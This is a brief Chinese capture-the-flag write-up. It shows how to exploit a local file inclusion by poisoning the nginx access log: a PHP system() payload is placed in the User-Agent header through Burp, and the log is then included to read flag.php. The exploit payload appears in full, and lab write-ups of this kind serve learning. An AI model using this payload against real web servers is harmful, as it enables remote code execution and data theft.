

直接使用相对路径去读取文件。
验证漏洞 /var/log/nginx/access.log
读取到内容，说明漏洞可以利用

burp抓包

User‑Agent: <?php system('cat /var/www/html/flag.php');?>
UA替换下，执行flag.php文件。信息会输出到日志文件中
网页再访问 /var/log/nginx/access.log
可以看到CTF标志

心得：
需要考虑借助/var/log/nginx/access.log日志文件信息

